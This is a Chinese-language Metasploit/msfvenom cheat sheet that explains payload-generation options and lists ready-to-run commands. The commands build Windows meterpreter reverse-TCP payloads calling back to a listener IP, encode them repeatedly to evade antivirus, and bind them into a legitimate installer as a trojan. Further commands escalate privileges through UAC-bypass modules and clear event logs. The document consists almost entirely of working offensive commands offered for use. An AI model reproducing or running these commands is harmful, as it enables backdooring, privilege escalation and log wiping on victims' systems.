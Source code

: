 ```shell

-s
	设定有效供给载荷的最大生成长度payload--(文件大小)

-i
	指定payload的编码次数

-c
	指定一个附加的win32 shellcode文件
	
-x
	指定一个自定义的可执行文件作为模板
	例如:原先有个正常的ormal.exe 可以通过把这个选项把后门捆绑到这个程序上面

-k
	保护模版程序的动作,注入的payload作为一个新的进程运行
	例如:原先有个正常的normal.exe 可以通过把这个选项把后门捆绑到这个程序上面(隐蔽性更强)
	
-v 
	指定一个自定义的变量,以确认输出格式
```



示例:

```shell
# 基础操作:
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.16.74.128 lport=4445 -f exe -o text.exe

# 使用-e指定编码器:
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.16.74.128 lport=4445 -e x86/shikata_ga_nai -f exe -o text.exe

# 添加-i增加编码次数
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.16.74.128 lport=4445 -e x86/shikata_ga_nai -i 6 -f exe -o text.exe

# 进行自捆绑操作 -->以下操作二选一
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.16.74.128 lport=4445 -e x86/shikata_ga_nai -i 6 -x uiso9_cn.exe 

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.16.74.128 lport=4445 -e x86/shikata_ga_nai -i 6 -f exe -x uiso9_cn.exe -o ruan.exe

## 多重编码payload生成样本进行检测
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.16.74.128 lport=4445 -e x86/shikata_ga_nai -i 20 -f raw | msfvenom -e x86/alpha_upper -i 10 -f raw| msfvenom -e x86/countdown -i 10 -x uiso9_cn.exe -f exe -o ruan2.exe



# 提权: --> 以下模块二选一进行尝试
use  exploit/windows/local/bypassuac_windows_store_reg 

use exploit/windows/local/bypassuac_sluihijack  # (推荐)  # --> 成功后使用getsystem即可成功提权-->获取系统级权限

# 使用RunAs提权 -->风险较高-需要用户手动点击确认-确认后即可获得系统级权限
exploit/windows/local/ask模块（该模块在windows 32位和64位下都有效）

# 痕迹清理(需使用system权限)  --> 在靶机上输入eventvwr即可查看安全日志
clearev


# 各平台生成payload命令
```